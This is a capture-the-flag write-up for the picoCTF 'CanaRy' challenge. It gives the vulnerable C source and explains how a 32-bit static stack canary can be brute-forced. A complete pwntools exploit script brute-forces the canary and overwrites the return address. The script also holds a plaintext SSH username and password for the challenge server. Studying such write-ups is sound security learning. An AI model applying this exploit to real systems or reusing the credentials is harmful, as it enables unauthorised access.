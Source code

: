 [Back](PicoFrontPage.md)

# CanaRy
---

### Tools
* GEF-GDB
* Pwntools - Python3
* Text editor

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUF_SIZE 32
#define FLAG_LEN 64
#define KEY_LEN 4

void display_flag() {
  char buf[FLAG_LEN];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("'flag.txt' missing in the current directory!\n");
    exit(0);
  }
  fgets(buf,FLAG_LEN,f);
  puts(buf);
  fflush(stdout);
}

char key[KEY_LEN];
void read_canary() {
  //FILE *f = fopen("/problems/canary_6_c4c3b4565f3c8c0c855907b211b63efe/canary.txt","r")
  //
  //;
  FILE *f = fopen("canary.txt","r");
  if (f == NULL) {
    printf("[ERROR]: Trying to Read Canary\n");
    exit(0);
  }
  fread(key,sizeof(char),KEY_LEN,f);
  fclose(f);
}

void vuln(){
   char canary[KEY_LEN];
   char buf[BUF_SIZE];
   char user_len[BUF_SIZE];

   int count;
   int x = 0;
   memcpy(canary,key,KEY_LEN);
   printf("Please enter the length of the entry:\n> ");

   while (x<BUF_SIZE) {
      read(0,user_len+x,1);
      if (user_len[x]=='\n') break;
      x++;
   }
   sscanf(user_len,"%d",&count);

   printf("Input> ");
   read(0,buf,count);

   if (memcmp(canary,key,KEY_LEN)) {
      printf("*** Stack Smashing Detected *** : Canary Value Corrupt!\n");
      exit(-1);
   }
   printf("Ok... Now Where's the Flag?\n");
   fflush(stdout);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  int i;
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  read_canary();
  vuln();

  return 0;
}
```

Important points:
* Stack canaries are used to alert when the stack has been altered.
	* A certain location on the stack will be compared with a certain value to check for buffer overflows.
	* Brute-forcing canaries is actually feasible for 32-bit systems

### Analysis

As you can see, the program asks for user input twice, one to store as string size for the next input, and the second is for just input.
For the first bit of input we are able to set a size for count which will define how much text we can feed it the next input. 

We can also see that the canary is actually read off a file in the `read_canary()` function.

As mentioned earlier - since this is 32-bit we can actually brute-force it. Just create a function that iterates through all characters while adjusting the size.

The distance to `$eip` can be found through earlier tricks - `cyclic`, using a disassembler, etc. Just make sure you set the size before if you're dynamically analyzing.
Note, the canary in the file doesn't change - once you cleared the brute-forcing and run into an error after, you can just create a script that skips the actual brute-forcing and instead go straight to overriding the `$eip`.
```c
from pwn import *

# variables

canary = ''

# variables
buf_canary = 32 # buffer to canary
canary_eip = 16 # canary to eip
#canary_eip = 54 # canary to eip
#display_flag = 0x5655636d # address of display_flag
display_flag = 0x7ed

s = ssh(host='2019shell1.picoctf.com',user='ehpp19706779',password='Mrniceguy!123')

# looping through all possible bytes for the 4 bytes (32-bit) in canary
for i in range(4):
	for j in range(256):
		# set up connection and cd into correct directory
		p = s.process('/problems/canary_6_c4c3b4565f3c8c0c855907b211b63efe/vuln', cwd='/problems/canary_6_c4c3b4565f3c8c0c855907b211b63efe')
		#p = process('./test')

		#p.recv()
		#p.sendline(b'1234')

		# set up payload
		payload = 'A'*buf_canary
		payload += canary
		payload += chr(j)

		# respond to initial message
		p.recvuntil(b'Please enter the length of the entry:\n> ')
		p.sendline(str(32+i+1))

		# send payload with canary
		p.recvuntil(b'Input> ')
		p.sendline(payload)
		recvmsg = p.recvall()

		if b'Stack Smashing Detected' not in recvmsg:
			canary += chr(j)
			print("\nCanary Character", i + 1, "=", chr(j), "\n")
			break
    #else:
	#print("error")
	#exit()

print("Brute forcing canary successful.\nCanary value is:", canary, "\n")

#e = ELF('./test')
#e = ELF('/problems/canary_6_c4c3b4565f3c8c0c855907b211b63efe/vuln')
#gdb.attach(p, gdbscript='continue')

flag = ""

while "pico" not in flag:
	#p = process('./test')
	p = s.process('/problems/canary_6_c4c3b4565f3c8c0c855907b211b63efe/vuln', cwd='/problems/canary_6_c4c3b4565f3c8c0c855907b211b63efe')
	
	# real payload
	payload = b'A'*buf_canary
	payload += bytes(canary, 'utf-8')
	payload += b'A'*canary_eip
	payload += p32(display_flag)

	# skip through lines
	p.recvuntil(b'Please enter the length of the entry:\n> ')
	p.sendline(b'54')

	p.recvuntil(b'Input> ')
	p.sendline(payload)
	response = p.recvall()
	flag = str(response)
	p.close()

print(flag)

# do this
p.interactive()
``` 
